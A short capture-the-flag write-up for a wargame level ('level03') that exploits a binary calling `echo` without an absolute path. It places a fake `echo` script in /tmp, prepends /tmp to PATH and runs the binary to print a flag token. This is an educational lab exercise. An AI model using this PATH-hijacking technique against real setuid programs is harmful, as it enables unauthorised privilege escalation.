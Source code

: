 When disasembled, `level03` contains the code in `main.c`  
As we can see, it tries to execute `echo` without absolute path.  
Thus we can replace it by a custom '`echo`' command, containing our payload.  
In that case we try to execute `/bin/getflag`.

```sh
$> echo /bin/getflag > /tmp/echo

$> chmod +x /tmp/echo

$> ./level03
Exploit me

$> PATH=/tmp:$PATH

$> ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
